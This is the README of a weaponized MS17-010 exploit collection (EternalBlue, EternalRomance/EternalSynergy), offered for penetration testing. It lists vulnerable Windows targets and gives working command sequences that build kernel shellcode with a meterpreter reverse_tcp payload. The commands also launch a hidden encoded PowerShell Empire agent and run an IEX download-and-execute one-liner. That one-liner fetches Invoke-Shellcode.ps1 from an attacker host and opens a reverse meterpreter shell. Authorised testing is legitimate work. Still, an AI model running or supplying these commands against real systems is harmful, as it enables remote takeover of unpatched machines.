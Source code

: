 # MS17-010 RCE PoC's

All credits go out to [worawit](https://github.com/worawit/MS17-010). I've just added some usage clarifications and weaponized them to be more usable for pentesting purposes.

## Eternalblue

Eternalblue only requires access to IPC$ to exploit a target while other exploits require access to a named pipe as well. Eternalblue thus works on all versions of Windows that allow anonymous access to IPC$ (Windows 7 and Windows 2008, or later version explicitly configured to allow anonymous access). Keep in mind that Eternalblue has a higher change of crashing a target than Eternalsynergy - Eternalromance.

### Compatible targets

**eternalblue_exploit7:**

- Windows 7 SP1 x64
- Windows Server 2008 R2 SP1 x64
- Windows 7 SP1 x86
- Windows Server 2008 SP1 x86

**eternalblue_exploit8:**

- Windows Server 2012 R2 x64
- Windows 8.1 x64

### Exploit usage

Example for spawning a meterpreter session on an x64 machine:

1. `nasm -f bin eternalblue_kshellcode_x64.asm`
2. `msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o meterpreter_msf.bin EXITFUNC=thread LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT>`
3. `cat eternalblue_kshellcode_x64 meterpreter_msf.bin > sc_x64.bin`
4. `python eternalblue_exploit7.py <TARGET_IP> shellcode/sc_x64.bin`


## Eternalsynergy - Eternalromance

This exploit exploits the same bug used by NSA's Eternalromance and Eternalsynergy. A named pipe is needed, meaning on more modern (default) configurations you will need credentials in order for the exploit to work. In most cases, domain user credentials will suffice. You can use `find_named_pipe.py` to find available named pipes on the target.

### Compatible targets

- Windows Server 2016 x64
- Windows Server 2012 R2 x64
- Windows 8.1 x64
- Windows Server 2008 R2 SP1 x64
- Windows 7 SP1 x64
- Windows 8.1 x86
- Windows 7 SP1 x86

### Usage

Example for finding a named pipe:

`python find_named_pip.py 192.168.178.2 testuser Password123`

Usage of `eternalsynergy_romance.py`: 

`python eternalsynergy_romance.py <target_ip_address> <named_pipe> <username> <password> <command_to_execute>`

Example for spawning an Empire agent:

`python eternalsynergy_romance.py 192.168.178.2 netlogon testuser !Password123 "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AEUAbQAuAE4AZQBUAC..."`

Example for spawning a meterpreter session:

`python eternalsynergy_romance.py 192.168.178.2 netlogon "testuser" !Password123 "powershell -Exec ByPass -NoP -noexit \"IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.3/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.178.3 -Lport 8443 -Force \""`

(I typically grab Invoke-Shellcode.ps1 from http://bit.ly/2cuWJTF, but that only works when the target has an unfiltered outbound connection.)

